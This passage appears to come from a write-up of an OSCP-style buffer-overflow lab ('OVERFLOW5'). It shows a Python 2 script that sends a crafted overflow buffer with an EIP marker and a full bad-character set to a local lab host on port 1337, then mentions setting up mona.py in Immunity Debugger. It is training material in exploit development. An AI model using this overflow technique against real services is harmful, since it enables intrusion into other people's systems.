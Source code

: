 ```
import socket, sys
from time import sleep

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

buffer = 'A' * 314 + "B"*4 + badchars + "C"*500

try:
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.connect(('192.168.0.104',1337))
  s.recv(1024)

  print '[*] Sending buffer.'
  s.send("OVERFLOW5 " + buffer)
  s.close()

except Exception as e:
  print '[*] Error: ' + str(e)
  sys.exit()

```

I set up a working folder from the ImmunityDebugger console

> We must have added the mona.py script in the ImmunityDebugger folder

![workingfolder.png](/assets/imgs/bof5_oscp/workingfolder.png)
